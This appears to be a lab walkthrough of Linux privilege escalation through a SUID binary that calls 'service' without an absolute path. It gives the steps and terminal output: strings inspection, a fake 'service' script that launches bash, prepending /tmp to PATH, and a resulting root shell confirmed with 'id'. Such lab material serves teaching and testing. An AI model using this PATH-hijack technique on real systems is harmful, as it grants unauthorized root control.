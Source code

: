 
***` SUID / SGID Executables - Environment Variables`***

[+] technique: path weakness<br>

[+] steps<br>
- run strings  to detect any call for binary files without using absolute path

```bash

user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start

```

`service apache2 star` run service command without absolute path which make it vulnerable to path weakness.


- create  `service` file in /tmp dir.

```bash
user@debian:/tmp$ cat service
#!/bin/bash

/bin/bash
```

- add /tmp as first dir in PATH 

```bash
user@debian:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin
user@debian:/tmp$ export PATH=/tmp:$PATH
user@debian:/tmp$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin

```

- run  vulnerable binary

```bash
user@debian:/tmp$ /usr/local/bin/suid-env
root@debian:/tmp#
root@debian:/tmp# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)

```
